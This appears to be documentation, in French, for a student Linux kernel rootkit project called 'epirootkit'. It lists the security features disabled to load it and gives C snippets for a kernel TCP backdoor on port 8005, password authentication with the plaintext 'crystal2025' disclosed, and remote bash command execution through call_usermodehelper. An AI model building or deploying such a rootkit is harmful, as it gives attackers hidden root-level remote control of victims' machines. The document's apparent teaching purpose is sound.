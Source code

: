 **Modules signes** : Le systeme de signature des modules reste en place, necessitant une approche particuliere pour l'installation.

**SELinux/AppArmor** : Les systemes de controle d'acces obligatoire peuvent rester actives selon la configuration.

### Securites desactivees et justifications

**Secure Boot** : Desactive pour permettre le chargement de modules non signes. En production, le rootkit necessiterait un certificat de signature valide.

**Kernel lockdown** : Desactive pour permettre l'acces aux interfaces de debogage kernel necessaires au developpement.

**Module loading restrictions** : Les restrictions sur le chargement de modules depuis des sources non fiables sont relachees.

## Fonctionnalites implementees

### Communication reseau

Le rootkit implemente un serveur TCP complet en espace kernel utilisant l'API socket du noyau :

```c
// Creation du serveur dans main.c
err = sock_create(AF_INET, SOCK_STREAM, IPPROTO_TCP, &sockfd);
err = kernel_bind(sockfd, (struct sockaddr *)&serveur_adresse, sizeof(serveur_adresse));
err = kernel_listen(sockfd, 5);
```

**Port d'ecoute** : 8005 (configurable dans epirootkit.h)
**Protocole** : TCP avec authentification obligatoire
**Gestion des connexions** : Thread kernel dedie pour chaque session

### Systeme d'authentification

L'authentification utilise un hachage SHA-256 pour securiser l'acces :

```c
// Dans auth.c - Hash du mot de passe "crystal2025"
static const char PASSWORD_HASH[] = "1e29e7045275a60d15275bf8e97b5a47644844f2bca62d70476e11ad0543e000";
```

**Algorithme** : SHA-256 via l'API crypto kernel
**Stockage** : Hash uniquement, pas de mot de passe en clair
**Verification** : Comparaison de hash a chaque connexion

### Execution de commandes

Le systeme d'execution utilise `call_usermodehelper` pour lancer des processus depuis l'espace kernel :

```c
// Dans commandes.c
char *argv[] = {"/bin/bash", "-c", cmd_with_bash, NULL};
char *envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL};
ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
```
